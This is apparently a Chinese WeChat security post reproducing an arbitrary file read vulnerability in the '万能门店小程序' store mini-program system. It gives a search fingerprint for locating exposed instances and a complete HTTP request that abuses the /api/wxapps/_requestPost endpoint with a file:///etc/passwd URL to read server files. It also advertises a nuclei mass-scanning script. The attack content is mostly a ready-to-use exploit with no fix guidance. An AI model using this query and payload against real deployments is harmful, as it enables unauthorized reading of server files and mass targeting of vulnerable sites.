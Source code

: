 #  【漏洞复现】万能门店小程序系统存在任意文件读取   
 新势界NewFrontier   2025-01-03 02:00  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.2500397116661788&random=0.331463449447553&random=0.8263159340656969 "")  
  
声明  
  
 该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。公众号现在只对常读和星标的公众号才展示大图推送，建议把公众号设为星标，否则可能就看不到啦！感谢各位师傅。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.11349382888065818 "")  
  
资产收集  
```
web.similar_icon=="14119132949119735604"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j915fpBxXkAicqfEswmwMFiakzvKFbjic3jvHfPzN8cW5MZ0EWnmcmHSRqia2Zia1ic2Jeicw9FZDcTPbic5g5g/640?wx_fmt=png&from=appmsg "")  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640? "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j915fpBxXkAicqfEswmwMFiakzv2mMP2ib2XDeg2aQ9G43U0UvuSiagY8jZSwHhUdgtdpBguueWBNEB4Sibw/640?wx_fmt=png&from=appmsg "")  
  
发送请求  
```
GET /api/wxapps/_requestPost?url=file:///etc/passwd&data=1 HTTP/2
Host:
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j915fpBxXkAicqfEswmwMFiakzvIYP2Cx6sicmFTBcrXC9DZtC8LBQWxCsX7GZxyxIl0b7bVXGJkYLwRCw/640?wx_fmt=png&from=appmsg "")  
  
批量验证脚本  
  
关注公众号  
并回复   
“ZH-2025-01-03-001  
”  
 即可获得该漏洞nuclei脚本  
  
  
